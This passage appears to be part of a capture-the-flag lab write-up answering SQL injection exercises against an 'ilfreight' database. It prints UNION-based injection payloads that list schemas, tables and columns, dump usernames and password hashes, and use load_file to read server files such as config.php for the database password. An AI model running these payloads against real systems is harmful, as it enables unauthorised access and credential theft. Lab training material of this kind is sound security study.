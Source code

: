 8. Use a Union injection to get the result of 'user()'

<figure><img src="../../../../.gitbook/assets/union-user.png" alt=""><figcaption></figcaption></figure>

9. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

```sql
cn' union select 1,schema_name,3,4 from information_schema.schemata-- -
cn' union select 1,table_name,3,4 from information_schema.tables-- -
cn' union select 1,column_name,3,4 from information_schema.columns where table_name='users'-- -
cn' union select 1,username,password,4 from ilfreight.users-- -
```

<figure><img src="../../../../.gitbook/assets/newuser-password.png" alt=""><figcaption></figcaption></figure>

10. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

```sql
cn' union select 1,load_file("/var/www/html/search.php"),3,4-- -
cn' union select 1,load_file("/var/www/html/config.php"),3,4-- -
```
